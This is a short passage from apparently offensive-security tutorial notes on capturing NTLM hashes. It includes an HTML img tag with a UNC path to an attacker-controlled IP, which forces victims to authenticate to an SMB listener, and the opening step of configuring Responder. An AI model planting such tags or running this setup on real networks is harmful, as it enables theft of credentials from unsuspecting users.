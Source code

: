 This again, will force the victim’s system to authenticate to the SMB listener on our machine. The following HTML tag will do just fine:

```text
<img src="\\192.168.102.147\ADMIN$">
```

It is very useful to know that when the password length is less than or equal to seven characters \(i.e. 1235467\), the last 8 bytes of the NTLM response are always the same: **2f85252cc731bb25.**

{% embed url="https://blog.rapid7.com/2016/07/26/capturing-credentials-on-an-internal-network/" %}

## Using Responder

first go to responder config file and disable smb and http:

```text
nano /usr/share/responder/Responder.conf
```

![](../../../.gitbook/assets/image%20%28221%29.png)
